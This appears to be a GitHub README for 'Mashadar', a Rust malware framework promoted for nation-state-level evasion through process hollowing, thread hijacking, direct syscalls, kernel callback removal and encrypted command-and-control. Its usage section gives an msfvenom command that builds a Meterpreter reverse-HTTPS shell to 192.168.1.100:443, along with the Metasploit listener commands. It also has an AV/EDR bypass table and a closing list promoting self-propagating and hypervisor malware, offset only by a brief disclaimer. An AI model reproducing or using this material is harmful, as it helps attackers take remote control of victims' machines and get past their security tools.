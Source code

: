 # 🖤 Mashadar – The Ultimate Nation-State Malware Framework

_"There is something worse than the Shadow. Worse than Darkfriends and Forsaken."_  
_"It does not serve the Dark One. It kills everything."_

## 🚀 Overview
**Mashadar** is a **stealthy, in-memory malware framework** designed for **nation-state level evasion**.  
It implements **process hollowing, reflective thread hijacking, direct syscalls, kernel callback removal, and AES-encrypted C2 communications** to maximize stealth.

✅ **No files written to disk**  
✅ **Executes inside legitimate processes**  
✅ **Bypasses AV/EDR detection with direct syscalls**  
✅ **Encrypted C2 for payload delivery**  
✅ **Ideal for red teaming & advanced adversary simulation**  

---

## 📂 Project Structure

```plaintext
mashadar/
│── src/
│   ├── main.rs          # Entry point (Process Hollowing + Execution)
│   ├── hollowing.rs     # Process Hollowing via NtUnmapViewOfSection
│   ├── syscalls.rs      # Direct Syscalls (EDR Bypass)
│   ├── encryption.rs    # AES Shellcode Encryption (Pre-Execution)
│   ├── stealth.rs       # Kernel Callback Removal + Anti-Debugging
│   ├── c2.rs            # Encrypted Command & Control (C2) Comms
│── shellcode/
│   ├── payload.bin      # Encrypted shellcode (Cobalt Strike, Meterpreter, etc.)
│── README.md
│── Cargo.toml           # Rust dependencies
```

---

## 🔥 **Execution Flow**
Mashadar follows a **multi-stage attack process**. Below is a high-level **Mermaid.js sequence diagram** of its execution:

```mermaid
sequenceDiagram
    participant Attacker
    participant Mashadar
    participant TargetProcess as "Target Process (e.g., svchost.exe)"
    participant C2Server as "C2 Server"

    Attacker->>Mashadar: Run executable
    Mashadar->>TargetProcess: Locate existing threads
    Mashadar->>TargetProcess: Hijack thread & inject shellcode
    Mashadar->>C2Server: Request encrypted payload
    C2Server->>Mashadar: Send AES-encrypted shellcode
    Mashadar->>Mashadar: Decrypt & execute shellcode
    Mashadar->>TargetProcess: Modify thread execution to run payload
    TargetProcess->>C2Server: Establish C2 communication
```

---

## 🏗️ **Installation & Setup**

### **1️⃣ Install Rust**
```sh
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```

### **2️⃣ Clone the Repository**
```sh
git clone https://github.com/yourname/mashadar.git
cd mashadar
```

### **3️⃣ Install Dependencies**
```sh
cargo build --release
```

---

## 💀 **How Mashadar Works**
Mashadar executes shellcode stealthily using **three core techniques**:

### **🔹 1. Process Hollowing**
- **Creates a legitimate process (e.g., svchost.exe)**
- **Unmaps its memory using `NtUnmapViewOfSection`**
- **Injects shellcode into the hollowed process**
- **Resumes execution with malicious payload**

```mermaid
graph TD;
    A[Create Suspended Process (svchost.exe)] -->|Step 1| B[Unmap Executable Memory]
    B -->|Step 2| C[Inject Shellcode]
    C -->|Step 3| D[Modify Execution Context]
    D -->|Step 4| E[Resume Process with Malicious Code]
```

### **🔹 2. Reflective Thread Hijacking**
Instead of creating a new thread (which triggers AV alerts), Mashadar:
1. **Suspends an existing thread** in a running process.
2. **Overwrites the instruction pointer (RIP) to point to shellcode**.
3. **Resumes execution**—seamlessly hijacking the process.

```mermaid
graph TD;
    A[Find Target Process] -->|Step 1| B[Find Suspended Thread]
    B -->|Step 2| C[Inject Shellcode]
    C -->|Step 3| D[Modify Thread Context]
    D -->|Step 4| E[Resume Execution]
```

### **🔹 3. Encrypted C2 Communication**
- Uses **AES encryption** to fetch payloads.
- Ensures **network traffic looks benign**.
- **Prevents signature-based detection** of raw shellcode transfers.

```mermaid
graph TD;
    A[Request Payload] -->|AES Encrypted| B[C2 Server]
    B -->|AES Encrypted Shellcode| C[Mashadar]
    C -->|Decryption| D[Execute Shellcode]
```

---

## 🔑 **Usage Instructions**
### **📝 Step 1: Encrypt Shellcode**
Before running Mashadar, encrypt your payload:

```sh
python -c "import os; os.system('msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 -f raw -o shellcode/payload.bin')"
```

### **🚀 Step 2: Run Mashadar**
```sh
cargo run --release
```

### **📡 Step 3: Receive Connection**
If using a **Metasploit C2**, start a listener:
```sh
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST 192.168.1.100
set LPORT 443
run
```

---

## 🔍 **Detection & Evasion**
### **🛡️ How Mashadar Bypasses AV/EDR**
| **Detection Technique**         | **Bypass Method**                         |
|---------------------------------|------------------------------------------|
| Signature-based detection       | Polymorphic encryption & AES shellcode  |
| Behavior-based heuristics       | Reflective thread hijacking             |
| API Hooking (EDR Monitoring)    | Direct Syscalls (No `ntdll.dll` hooks)  |
| Process creation monitoring     | Process Hollowing                       |
| Network-based detection         | AES-encrypted C2 traffic                |

---

## 🛠️ **Feature Breakdown**
### **Reflective Thread Hijacking**
✅ **No new threads created**  
✅ **Executes within an existing process**  
✅ **Evades behavioral heuristics**  

### **Process Hollowing**
✅ **Completely replaces a target process (e.g., `svchost.exe`)**  
✅ **Executes shellcode inside a legitimate Windows process**  
✅ **Avoids new process creation detection**  

### **Direct Syscalls**
✅ **Avoids `ntdll.dll` hooks from EDR**  
✅ **Calls Windows APIs directly from memory**  
✅ **Bypasses common AV detections**  

### **Kernel Callback Removal**
✅ **Disables forensic monitoring**  
✅ **Prevents process execution tracking**  

### **AES-Encrypted C2**
✅ **All network traffic is AES-encrypted**  
✅ **Payload updates received via secure channel**  

---

## **📌 Next Steps**
Want to take it **even further**?
- **Kernel Exploits** – Inject into **Ring 0** for full system compromise.
- **Secure Boot Bypass** – **Own the machine before the OS starts.**
- **Hypervisor Malware** – Run undetected **below the OS**.
- **Self-Propagating Code** – Fully autonomous replication **across networks**.

---

## **⚠️ Legal Disclaimer**
This framework is for **research and educational purposes only.**  
Do **not** use for unauthorized access or malicious activities.  